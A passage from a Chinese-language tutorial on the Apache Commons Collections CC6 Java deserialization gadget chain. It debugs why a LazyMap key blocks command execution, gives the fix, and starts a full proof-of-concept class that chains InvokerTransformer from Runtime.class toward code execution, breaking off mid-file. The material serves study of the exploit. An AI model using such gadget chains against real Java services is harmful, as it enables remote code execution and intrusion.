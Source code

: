 但是执行后无法触发命令执行，进行调试，发现 `expMap.put(tme, "valuevalue");` 这个 `put` 语句也有调⽤到 `HashMap#hash(key)`

![image](https://user-images.githubusercontent.com/84888757/205507641-1b0c599f-5a83-4020-a99c-45671e7efa34.png)

而这里的 `key` 为 `TiedMapEntry` 的实例化对象 `tme`，调用的则是 `TiedMapEntry的hashcode` ：

![image](https://user-images.githubusercontent.com/84888757/205507741-dd0be951-5c8c-48fb-9023-04f2657f60bf.png)


然后就调用到 `LazyMap#get` 方法，此时 `lazymap` 中的 `key` 没有 `keykey` 。

所以进入 `if` 语句，执行了 `factory.transform(key);` ，因为前面构造 `LazyMap` 的时候先⽤了⼀个无伤大雅的虚假 `transformerChain` 对象 `ConstantTransformer(1)` ，所以此时并没有触发命令执⾏。

但也执行了 `map.put(key, value);` ，导致 `lazymap` 中的 `key` 之后在反序列化时就有 `keykey` 了。

<div align=center><img width="885" alt="image" src="https://user-images.githubusercontent.com/84888757/205511423-bf0a3dbc-4d71-466b-8be0-41f1f3c14c46.png" /></div>



再进行一次 `F9` 执行程序到下一次断点位置，走到反序列化过程中的 `LazyMap#get` 中，这才是我们之前想要的使用了正确的 `transformerChain` 的 `Gadget` （从 `readObject` 起步）。

`LazyMap` 中已存放有 `key` 为 `keykey` ，导致 `factory.transform(key)` 方法无法触发。

<div align=center><img width="957" alt="image" src="https://user-images.githubusercontent.com/84888757/205511877-b4e4f53a-b01e-44c9-8c30-1f034bc6a124.png" /></div>



解决⽅法：

移除 `LazyMap` 中的 `keykey` 这个 `key`。

```
outerMap.remove("keykey");
outerMap.clear();
```

## 3.4 完整的 CC6 Gadget POC
最后，构造的完整POC如下：

📒 `CC6_1.java`

```
package org.vulhub.Ser;

import com.sun.xml.internal.ws.policy.privateutil.PolicyUtils;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC6_1 {
    public static void main(String[] args) throws Exception{

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
```